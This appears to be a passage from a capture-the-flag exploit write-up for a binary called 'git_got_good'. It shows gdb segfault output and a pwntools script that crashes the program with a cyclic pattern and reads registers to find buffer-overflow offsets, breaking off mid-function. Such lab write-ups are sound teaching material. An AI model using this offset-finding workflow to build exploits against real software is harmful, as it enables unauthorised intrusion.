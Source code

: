 ```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400800 in main ()

[*] Stopped process '/bin/bash' (pid 617356)
[*] Stopped process '/bin/bash' (pid 617345)
[*] Stopped process '/bin/bash' (pid 617334)
[*] Stopped process '/bin/bash' (pid 617315)
[*] Stopped process '/bin/bash' (pid 617304)
[*] Stopped process '/bin/bash' (pid 617293)
[*] Stopped process '/bin/bash' (pid 617282)
[*] Stopped process '/bin/bash' (pid 617260)
[*] Stopped process '/bin/bash' (pid 617249)
[*] Stopped process '/bin/bash' (pid 617238)
[*] Stopped process '/bin/bash' (pid 617227)
[*] Stopped process '/bin/bash' (pid 617208)
[*] Stopped process '/bin/bash' (pid 617197)
[*] Stopped process '/bin/bash' (pid 617186)
[*] Stopped process '/bin/bash' (pid 617175)
[*] Stopped process '/bin/bash' (pid 617156)
```

#### Finding Offsets
###### Finding offset of registers:
```python
def regOffset():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("r")
	d = p.recvuntil("save:")
	p.sendline(cyclic(25))
	#p.recvuntil("Segmentation fault")
	p.recvuntil("(gdb) ")
	print(p.recv)
	# RAX
	p.sendline("info registers rax")
	ln = cleanLine(p.recv())
	print(ln)
	l = re.split("\s+", ln)
	d = re.split("x", l[1])
	n = 2
	a = d[1]
	byt = [a[i:i+n] for i in range(0, len(a), n)]
	bytes = b"".join(struct.pack("B", int("0x"+byt[i], 16)) for i in range(0,4))
	rax = bytes
	info("rax offset = %d", cyclic_find(rax))
	# RDX
	p.sendline("info registers rdx")
	ln = cleanLine(p.recv())
	print(ln)
	l = re.split("\s+", ln)
	d = re.split("x", l[1])
	n = 2
	a = d[1]
	byt = [a[i:i+n] for i in range(0, len(a), n)]
	bytes = b"".join(struct.pack("B", int("0x"+byt[i], 16)) for i in range(0,4))
	rdx = bytes
	info("rdx offset = %d", cyclic_find(rdx))
	# RCX
	p.sendline("info registers rcx")
	ln = cleanLine(p.recv())
	print(ln)
	l = re.split("\s+", ln)
	d = re.split("x", l[1])
```
